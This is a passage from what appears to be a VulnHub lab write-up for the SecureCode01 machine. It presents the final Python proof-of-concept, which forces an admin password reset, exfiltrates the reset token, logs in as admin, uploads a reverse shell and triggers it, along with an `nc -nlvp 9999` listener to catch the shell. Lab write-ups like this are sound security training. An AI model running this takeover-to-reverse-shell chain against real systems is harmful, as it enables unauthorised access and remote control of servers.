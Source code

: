 Last but not least, create the function that will visit the page with the payload.

```python
def execute_revshell(session):
    print(BASE_URL + REVSHELL_UPLOAD_PATH)
    response = session.get(BASE_URL + REVSHELL_UPLOAD_PATH)
    assert response.status_code != 404, "Reverse Shell not found"
```

# Putting it all together

Once we have our functions defined, our listener up and running `nc -nlvp 9999`, we can simply run the functions one by one to get the reverse shell.

```python
if __name__ == "__main__":
    if len(sys.argv) < 4:
        print("[USAGE] poc.py http://<targetip> <localip> <localport>")
        exit()
    BASE_URL = sys.argv[1]
    HOST = sys.argv[2]
    PORT = sys.argv[3]
    
    username = "admin"
    password = "admin"
    # Request Admin
    request_reset(username)
    print("[+] Admin Password Reset Requested, time to get the token")
    ## Exfiltrate Token
    user_token = exfiltrate_token(SESSION)
    print(f"[+] {username} Token Found: {user_token}")
    ## Change User Password
    if not change_password(user_token, password):
        print("[-] Password Change failed, verify the validity of the token.")
        exit()
    print(f"[+] {username} password changed, New creds => {username}:{password}")
    # Login with new creds
    if not login_user(SESSION, username, password):
        print(f"[-] Could not login with credentials {username}:{password}")
        exit()
    print(f"[+] Login Successful as {username}.")
    create_rev_shell(HOST, PORT)
    update_item(SESSION)
    execute_revshell(SESSION)
```

![Executing the PoC](/assets/posts/vulnhub/securecode01/images/Pasted%20image%2020231125194233.png)
